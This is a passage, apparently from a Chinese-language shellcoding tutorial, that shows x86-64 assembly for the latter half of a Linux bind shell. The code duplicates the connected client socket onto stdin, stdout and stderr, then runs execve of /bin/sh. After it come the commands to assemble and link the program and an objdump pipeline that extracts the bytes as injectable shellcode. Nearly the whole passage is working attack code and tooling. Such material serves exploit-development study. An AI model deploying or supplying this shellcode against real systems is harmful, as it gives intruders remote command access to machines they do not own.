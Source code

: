 ```
    xor rsi, rsi
    xor rdx, rdx
    syscall

;Store clientfd in RBX register 
    mov rbx, rax

;Dup2 syscall to stdin
    mov rdi, rbx
    xor rax,rax
    add rax, 33
    xor rsi, rsi
    syscall

;Dup2 syscall to stdout
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Dup2 syscall to stderr
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Execve syscall with /bin/sh
    xor rax, rax
    push rax
    mov rdx, rsp
    mov rbx, 0x68732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi,rsp
    add rax, 59
    syscall
```

让我们组装并链接它：

```
$ nasm -felf64 bind-shell.nasm -o bind-shell.o
$ ld bind-shell.o -o bind-shell
```

让我们将其转换为外壳代码：

```
$ objdump -M intel -D bind-shell | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```
